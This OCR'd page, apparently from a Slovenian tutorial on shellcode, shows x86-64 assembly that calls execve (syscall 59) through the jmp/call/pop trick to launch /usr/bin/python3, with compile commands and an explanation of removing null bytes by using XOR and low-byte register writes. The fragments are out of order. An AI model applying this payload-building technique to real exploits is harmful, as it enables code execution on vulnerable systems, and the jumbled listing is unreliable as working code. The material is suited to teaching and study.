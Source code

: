         movl	$0, %esi

        jmp     jumppoint
    myfunction:
        pop     %rdi
        mov	    $0, %rsi
        mov	    $0, %rdx
        mov	    $59, %rax
        syscall
    jumppoint:
        call    myfunction
        .string	"/usr/bin/python3"

        movl	$0, %eax
        leave
        .cfi_def_cfa 7, 8
        ret
        .cfi_endproc
    .LFE0:
        .size	main, .-main
        .ident	"GCC: (Debian 10.2.1-6) 10.2.1 20210110"
        .section	.note.GNU-stack,"",@progbits

    gcc program.S -o program
    ./program

Ker bo naš program predstavljen kot niz, le ta ne sme vsebovati nobene ničle, saj splošne funkcije za branje nizov pričakujejo v programskem jeziku pričakujejo posebni končni znak na koncu niza, da vedo kdaj morajo prenehati z branjem. In ta posebni končni znak vsebuje ničlo (`'\0'`). Zato nadomestimo vse ukaze, ki direktno zapisujejo ničle v registre z logično operacijo XOR. V primeru, ko zapisujemo vrednost 59 v register `rax` pa tega na moremo uporabiti, zato register najprej nastavimo na nič tako da uporabimo logično operacijo XOR in nato zapišemo vrednost 59 le v spodnji bajt registra, saj se pri tem pri prevajanju ne dodajo ničle pred vrednostjo 59 do polne dolžine registra.

    nano program.S

    	.file	"program.c"
        .text
        .section	.rodata
    .LC0:
        .string	"/usr/bin/python3"
        .text
        .globl	main
        .type	main, @function
    main:
    .LFB0:
        .cfi_startproc
        pushq	%rbp
        .cfi_def_cfa_offset 16
        .cfi_offset 6, -16
        movq	%rsp, %rbp
        .cfi_def_cfa_register 6
        subq	$16, %rsp
        movl	%edi, -4(%rbp)
        movq	%rsi, -16(%rbp)
        movl	$0, %edx
        movl	$0, %esi
